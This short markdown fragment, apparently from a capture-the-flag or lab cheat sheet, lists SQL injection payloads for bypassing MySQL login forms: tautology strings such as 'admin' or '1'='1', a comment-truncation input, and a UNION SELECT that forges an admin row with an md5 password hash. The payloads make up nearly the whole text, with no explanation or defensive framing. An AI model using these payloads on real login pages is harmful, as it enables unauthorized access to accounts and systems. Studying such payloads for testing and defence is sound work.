 ## MySQL 1

1. admin' or '1'='1
2. admin' #

## MySQL 2

- Username: ' union select 1, 'admin', md5(1) #
- Password: 1